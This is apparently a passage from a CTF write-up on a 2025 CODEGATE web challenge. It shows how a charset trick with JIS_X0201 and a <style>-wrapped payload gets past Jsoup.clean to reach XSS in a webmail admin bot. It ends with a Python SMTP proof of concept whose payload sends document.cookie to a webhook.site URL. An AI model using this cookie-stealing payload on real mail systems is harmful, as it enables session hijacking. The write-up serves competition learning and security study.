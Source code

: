 1. Wrap the payload inside a `<style>` tag so that it is not removed by `Jsoup.clean`, and insert the escape sequence, double quote (`"`), and the script code you want to execute.
2. Specify the charset as **JIS X 0201:1976** for encoding and send it directly to the mail server (the mail server is open on port 25).

![**The mailbox is mapped to port 25.**](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2017.png)

**The mailbox is mapped to port 25.**

1. Send it to admin@securemail.com so that the bot reads the email and the cookie gets stolen.

Since the post mainly focused on ISO-2022-JP encoding, I first tried using ISO-2022-JP.

However, whether it was due to Java not supporting it or the latest version of Chrome blocking it, the escaping did not work as expected.

Nevertheless, in the document below, I was able to find several other charsets that support `JIS X 0201 1976`

https://docs.oracle.com/javase/jp/6/technotes/guides/intl/encoding.doc.html

![JIS X 0201 Search Results](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2018.png)

JIS X 0201 Search Results

In addition to ISO-2022-JP, there also existed a charset called **JIS_X0201**.

Therefore, by specifying this charset in the email’s Content-Type and sending it, the backslash (`\`) was successfully replaced with `¥`, and I was able to execute `alert(1)`!

![\ is mapped to ¥](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2019.png)

\ is mapped to ¥

![alert(1) is successfully triggered when using the JIS_X0201 charset.](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2020.png)

alert(1) is successfully triggered when using the JIS_X0201 charset.

Now, the only step left is to use the script to send the cookie value to my webhook site.

The final PoC is as follows.

```python
import smtplib
from email.message import EmailMessage
import base64

SMTP_HOST = "127.0.0.1"
SMTP_PORT = 25
USERNAME  = "test@securemail.com"
PASSWORD  = "test123456"

msg = EmailMessage()
msg["Subject"] = "\x1b(Jpayload"
msg["From"]    = USERNAME
msg["To"]      = "admin@securemail.com"
content = """<style>\x1b(J ";location.href='https://webhook.site/c9b79407-0e3d-41ce-a5bd-ccd1ba099ef0/?q='+document.cookie//</style>"""
b64_text = base64.b64encode(content.encode()).decode()
msg.set_payload(b64_text)
msg["Content-Type"]              = 'text/html; charset=JIS_X0201'
msg["Content-Transfer-Encoding"] = 'base64'

with smtplib.SMTP(SMTP_HOST, SMTP_PORT, timeout=10) as s:
    s.ehlo()
    if s.has_extn("STARTTLS"):
        s.starttls()
        s.ehlo()
    s.login(USERNAME, PASSWORD)
```